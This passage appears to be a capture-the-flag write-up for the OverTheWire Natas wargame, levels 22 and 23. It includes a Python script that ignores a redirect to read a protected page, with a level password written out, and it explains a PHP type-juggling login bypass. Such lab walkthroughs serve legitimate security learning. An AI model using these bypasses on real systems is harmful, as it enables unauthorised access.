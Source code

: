 ```
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

It seems that for this challenge, the webpage will reveal the password if it sees the GET parameter `revelio`. However, if you were to do `url?revelio`, the webpage will redirect you back to the index page `/`. However, we can disable the redirect using the following python script.

```
import requests

username = "natas22"
password = "chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/?revelio".format(username)

response = session.get(url, auth=(username, password), allow_redirects=False)
content = response.text
print(content)
```

# Level 23

In this webpage, we have to provide a password to login.

Upon clicking on the view source code, there is a php code within:

```
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

It seems that we need to supply a password that has `iloveyou` string in it and at the same time be a integer greater than 10. How do we do that? Interestingly, PHP does not require explicit type definition in the variable declaration. Therefore `11iloveyou` will be interpreted as an integer with a `iloveyou` string in it.

# Level 24
